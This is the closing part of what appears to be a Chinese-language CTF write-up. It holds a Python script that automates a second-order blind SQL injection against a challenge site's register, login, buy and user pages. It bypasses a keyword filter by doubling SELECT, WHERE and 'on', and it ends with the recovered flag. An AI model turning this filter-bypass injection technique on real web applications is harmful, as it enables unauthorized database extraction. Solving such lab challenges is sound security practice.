 ```

def random_str(randomlength=8):
    str = ''
    chars = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'
    length = len(chars) - 1
    random = Random()
    for i in range(randomlength):
        str+=chars[random.randint(0, length)]
    return str


def get_data(payload):
	
	payload1 = random_str(4)+payload
	payload2 = payload1.replace("SELECT", "SELSELECTECT").replace("WHERE","WHEWHERERE").replace("on", "oonn")
	register(payload2)

	login(payload1)
	buy()

	return check()


def register(user):
	r_url = url+"register.php"
	data = {"user": user, "pass": "user"}
	r = s.post(r_url,data=data)

def login(user):
	l_url = url+"login.php"
	data = {"user": user, "pass": "user"}
	r = s.post(l_url,data=data)

def buy():
	b_url = url+"buy.php?id=1"
	r = s.get(b_url)
	return r.text

def check():
	c_url = url+"user.php"
	r = s.get(c_url)
	#停1s,压力有点儿大
	# time.sleep(1)
	if "1997667" in r.text:
		return True
	else:
		return False

get_flag(url)

服务器特别卡，所以有误差，多打了几次拼起来
	
# flagEbbb6b6ui1d_5q1_iz_3z}
# flag{bbb6b6ui1d_5q1_iz_3z}
```


  [1]: http://static.zybuluo.com/LoRexxar/hml88kgi4o6fedxcf2b310a2/image.png
  [2]: http://static.zybuluo.com/LoRexxar/ovwsqpqw3m7woxybr5n1rx0a/image.png
  [3]: http://static.zybuluo.com/LoRexxar/fezpkgin6jwtnpw28y6ep02b/image.png
  [4]: http://static.zybuluo.com/LoRexxar/tr0z404vlz8pe1622z4uxpm5/image.png
